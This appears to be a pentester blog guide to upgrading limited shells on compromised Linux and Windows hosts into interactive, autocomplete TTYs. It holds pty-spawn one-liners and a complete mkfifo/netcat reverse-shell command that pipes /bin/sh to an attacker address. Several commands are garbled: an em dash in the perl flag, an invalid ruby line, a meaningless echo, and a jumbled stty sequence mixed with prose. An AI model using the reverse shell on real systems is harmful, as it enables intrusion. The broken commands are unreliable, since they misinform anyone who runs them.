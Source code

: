 ```yaml
---
title:  Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify installed language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:
```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```
### Examples

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
ruby: exec "/bin/sh"
```

```bash
# if python isn't installed, then use:
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 9001 >/tmp/f
```
After you have choosen one of these, to get an autocomplete shell, use:

```bash
ctrl-z 

stty raw -echo; fg

# send to background

# On attacker's machine

stty raw -echo 

stty -a 

get local number of rows & columns
fg 
# Press Enter Enter

Now you should have an autocomplete shell
```
